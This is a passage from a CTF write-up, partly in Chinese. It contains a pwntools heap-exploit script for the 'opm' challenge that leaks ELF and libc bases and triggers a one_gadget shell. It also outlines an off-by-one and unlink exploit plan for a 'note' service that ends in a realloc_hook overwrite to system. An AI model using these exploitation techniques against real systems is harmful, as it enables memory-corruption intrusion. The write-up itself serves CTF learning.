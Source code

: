 ```
    raw_input()

elf = ELF('./opm')
#one_gadget = 0x45216 0x4526a 0xf02a4 0xf1147

#step 1 leak elf_base
add('a' * 0x30 , 0x10)
add('b' * 0x30 , 0x20)
add('c' , 0x30)
add('d' * 0x80 + '\x63' , 0x40)
debug()
add('e' * 0x80 + '\x54' , '1' * 0x80 + '\x63')
#use 0054 + 0x10 (v6 -> length) to make a d00  ,  change 0054 to 0063 to point d00
elf.address = u64(p.recvuntil('>')[1:-1] + '\x00' * 2) - 0xb30
success('elf_base => ' + hex(elf.address))

#step 2 use f00 to leak libc_base
atoi_got = elf.got['atoi']
success('atoi_got => ' + hex(atoi_got))
add('f' * 8 + p64(atoi_got) , 0x50)
add('g'  , 'g' * 0x80)
libc.address = u64(p.recvuntil('>')[1:-1] + '\x00' * 2) - libc.symbols['atoi']
success('libc_base => ' + hex(libc.address))

#step 3 use 000 and show() to trigger one_gadget
one_gadget = libc.address + 0x4526a
add('h' * 0x60 + p64(one_gadget), '')
add('i' * 0x80 , '')
show()

#debug()
p.interactive()
```

### note
漏洞位置
该程序为socket程序，绑定为1234端口，需要系统有note的用户权限。程序在change_title的功能中存在off_by_one漏洞。

![](https://ctfwp.wetolink.com/2018qiangwang/46.png)

不过由于前面check_asc()中的限制，导致只能用0x0a、0x21、0x22、0x23、0x26、0x27、0x3F、0x40这几个规定内的字节进行溢出。

![](https://ctfwp.wetolink.com/2018qiangwang/47.png)

利用思路
题目限制只能realloc3次，利用0x40进行off_by_one并布置unlink环境，在此之前应该首先利用change_content功能构造好满足0x40大小的下一个chunk head。由于0x40大小的堆块在fastbin的范围内，无法直接free触发unlink，于是第二次realloc将该chunk放入fastbin中，在第三次realloc时触发malloc_consolidate进行unlink。unlink后，使.bss上的title指向comment指针，再配合change_comment功能，实现任意地址写，最终采用写realloc_hook为system的方法get shell。(不知道是否本地环境的问题，一开始就能直接leak libc)

>realloc
函数原型为realloc(ptr, size)，其中ptr为指向堆的指针，size为需要realloc的大小，根据size的大小有以下几种情况：
+ size = 0时，相当于free(ptr)。
+ size < ptr原大小时，会将原chunk分割为两部分，free掉后面的chunk。
+ size = ptr原大小时，没什么卵用，不会进行任何操作。注：该等于为将size对齐后相等。
+ size > ptr原大小时，若ptr下方为top chunk或者下方存在fastbin之外的free chunk并且size(free chunk) + size(ptr原大小) ≥ size，则将该堆块大小扩展至size，若不满足上述条件，则相当于free(ptr)然后malloc(size)。
